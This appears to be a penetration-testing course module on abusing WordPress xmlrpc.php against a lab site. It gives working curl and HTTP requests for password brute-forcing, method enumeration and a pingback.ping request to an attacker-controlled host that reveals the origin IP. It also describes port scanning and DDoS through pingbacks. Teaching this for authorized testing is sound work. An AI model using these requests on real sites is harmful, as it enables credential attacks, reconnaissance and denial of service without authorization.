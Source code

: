 # Attacking WordPress 'xmlrpc.php'
It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.
## Scenario Example
Suppose we are assessing the security of a WordPress instance residing in http://blog.inlanefreight.com. 

Through enumeration activities, we identified a valid username, `admin`, and that `xmlrpc.php` is enabled. 

Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through `xmlrpc.php`, as follows:
```shell
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
- We will receive a `403 faultCode` error if the credentials are not valid.

Here we can see a successful login attempt through `xmlrpc.php`.

You may ask how we identified the correct method to call (_system.listMethods_). We did that by going through the well-documented [Wordpress code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with `xmlrpc.php`, as follows:
```shell
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
- Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included. 
- `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks.

If pingbacks are available, they can facilitate:
- **IP Disclosure -** An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- **Cross-Site Port Attack (XSPA) -** An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
- **Distributed Denial of Service Attack (DDoS) -** An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

An IP Disclosure attack could be mounted if `xmlrpc.php` is enabled and the `pingback.ping` method is available.
- XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in http://blog.inlanefreight.com is protected by Cloudflare. As we already identified, it also has `xmlrpc.php` enabled, and the `pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from http://blog.inlanefreight.com, verifying the pingback and exposing http://blog.inlanefreight.com 's public IP address.
```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```